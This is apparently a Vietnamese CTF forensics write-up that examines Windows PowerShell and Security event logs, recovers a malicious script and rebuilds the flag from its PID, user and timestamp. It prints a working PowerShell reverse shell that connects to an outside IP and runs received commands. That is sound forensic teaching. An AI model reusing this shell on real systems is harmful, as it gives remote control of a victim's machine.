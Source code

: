 ![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20154222.png)

# Phân tích
Đề bài cho một thư mục bào gồm cái file log

Sử dụng `Event Viewer` để phân tích. Mở file `Microsoft-Windows-PowerShell%4Operational.evtx`, để xem các powershell đã thực thi. Thấy một đoạn script có vè khả nghi:

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20154731.png)

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.253.27", 4953)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535 | ForEach-Object { 0 }
$sendbyte = "KMACTF{$(([System.BitConverter]::ToString(([System.Security.Cryptography.MD5]::Create()).ComputeHash(([System.Text.Encoding]::UTF8.GetBytes(((Get-Process -Id $PID).Id.ToString()+[System.Security.Principal.WindowsIdentity]::GetCurrent().Name+(Get-Date).ToString())))))).Replace('-', '').ToLower())}"
$sendbyteBytes = [System.Text.Encoding]::ASCII.GetBytes($sendbyte)
$stream.Write($sendbyteBytes, 0, $sendbyteBytes.Length)
$stream.Flush()
while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i)
    $sendback = (iex $data 2>&1 | Out-String)
    $sendback2 = $sendback + "PS " + (Get-Location).Path + "> "
    $sendbyte = ([Text.Encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte, 0, $sendbyte.Length)
    $stream.Flush()
}
$client.Close()
```
Đọc qua đoạn script trên thì nó thực hiện như sau : 
- Lấy PID của tiến trình hiện tại: `Get-Process -Id $PID`
- Lấy tên của Domain và User: `[System.Security.Principal.WindowsIdentity]::GetCurrent().Name`
- Lấy thời gian lúc thực hiện script: `Get-Date`
- Sau đó băm MD5 những thứ lấy được và gửi cho ip `192.168.253.27` qua port `4953` bằng giao thức TCP

# Solved

## Lấy PID 
Để xem PID của tiến trình ta xem Event dưới dạng XML Details 

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20155819.png)

Nhưng có vẻ như đã bị động tay khiến cho không thể xem được. Xem tiếp các event khác thì thấy vẫn xem được

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20162724.png)

Nhận thấy event này được thực thi chỉ cách đoạn trước có 1 giây nên khả năng là nằm trong cùng 1 tiến trình => PID = 4144

# Lấy Domain và User

Sử dụng file `Security.evtx` để tìm user tạo tiến trình 4144

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20170123.png)

Ta thấy event tạo process có id là 0x1030 (4144) do user `long` tạo ra và domain là `KMA`

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20161053.png)

=> Domain = KMA
# Lấy thời gian :

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20161236.png)

Time = `5/22/2023 5:09:58 PM`

# Lấy Flag

Chạy đoạn script:
```ps
echo "KMACTF{$(([System.BitConverter]::ToString(([System.Security.Cryptography.MD5]::Create()).ComputeHash(([System.Text.Encoding]::UTF8.GetBytes(("4144"+"KMA\long"+"5/22/2023 5:09:58 PM")))))).Replace('-', '').ToLower())}"
```
Ta đươc flag:

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20164119.png)
